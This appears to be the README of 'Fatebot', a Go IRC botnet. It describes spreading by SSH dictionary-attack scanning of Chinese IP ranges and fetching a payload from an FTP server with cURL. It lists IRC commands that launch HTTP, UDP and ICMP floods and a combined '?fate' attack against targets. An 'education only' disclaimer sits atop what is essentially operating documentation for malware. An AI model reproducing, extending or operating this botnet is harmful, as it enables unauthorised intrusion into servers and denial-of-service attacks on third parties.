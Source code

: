 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. In <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

<img src="img/udptraffic.png" alt="udp flood, dos example">

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?fate [url]</li></strong>
    <ul>
      <li>?fate https://target.com</li>
      - Use all DDoS function to attack target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
